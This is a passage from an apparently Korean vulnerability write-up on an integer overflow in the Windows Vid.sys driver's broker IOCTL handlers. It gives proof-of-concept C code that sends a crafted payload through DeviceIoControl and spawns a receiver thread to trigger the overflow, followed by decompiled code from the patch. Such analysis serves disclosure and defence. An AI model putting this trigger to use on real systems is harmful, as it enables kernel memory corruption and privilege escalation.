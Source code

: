 ```c
		Receive,
		NULL,
		0,
		NULL
	);

	if (!DeviceIoControl(VidExo, SEND_IOCTL, payload, INPUT_LEN, NULL, 0, NULL, NULL)) {//[5]
		printf("DeviceIoControl(SEND_IOCTL) Failed(%x)\n", GetLastError());
		goto CLEAN;
	}
```

위 코드에서는 먼저 `DataLen`을 0xfffff000으로 설정하고 Integer Overflow가 발생하도록 계산된 값으로 `NumHandles`를 초기화합니다([1]). 이후 `VidExoBrokerIoctlSend`의 인풋으로 사용될 버퍼를 `VirtualAlloc`으로 할당합니다([2]).

정해진 값들로 헤더를 초기화하고 `NumHandles` 만큼의 핸들 배열을 현재 프로세스의 핸들(`proc`)로 초기화합니다([3]). 이는 `VidExoBrokerIoctlReceive`에서 모든 핸들이 성공적으로 복제된 다음에 `memmove` 함수가 호출되기 때문에 반드시 유효한 핸들이어야 합니다.

이후 [5]에서 `DeviceIoControl`을 호출해서 `VidExoBrokerIoctlSend` 함수를 호출합니다. 이때의 `DeviceIoControl` 호출은 `VidExoBrokerIoctlSend`로 보내진 IRP가 `VidExoBrokerIoctlReceive`로 수신될 때까지 반환하지 않기 때문에 [4]에서 `CreateThread`로 `VidExoBrokerIoctlReceive`를 호출할 새로운 스레드를 생성합니다.

생성된 스레드가 호출하는 `Receive` 함수는 아래와 같습니다.

```c
DWORD WINAPI Receive() {

	char buf[0x20];
	Sleep(2000);

	if (!DeviceIoControl(VidExo, RECV_IOCTL, NULL, 0, buf, 0x20, NULL, NULL)) {
		printf("RECV_IOCTL failed(%x)\n", GetLastError());
	}

	return 0;
}
```

# Patch

패치는 아래와 같이 연산 과정 중간에서 Integer Overflow를 검사하는 것으로 이루어졌습니다.

## `VidExoBrokerIoctlReceive` (Vid.sys 10.0.22621.3880)

```c
__int64 __fastcall VidExoBrokerIoctlReceive(
        __int64 VidExoObj,
        __int64 a2,
        BrokerIrpDataHeader *Dest,
        unsigned int OuputLen,
        unsigned int *a5)
{
	...
  v30 = 0;
  v7 = VidExoObj;
  ReceivedIRP = (IRP *)VidExoBrokerpFindAndDequeueSendIrpForFileObject(VidExoObj, a2);
  v9 = ReceivedIRP;
  if ( !ReceivedIRP )
  {
    ...
  }
  Source = (BrokerIrpDataHeader *)ReceivedIRP->AssociatedIrp.SystemBuffer;
  if ( OuputLen < 0x10 )
  {
    ...
```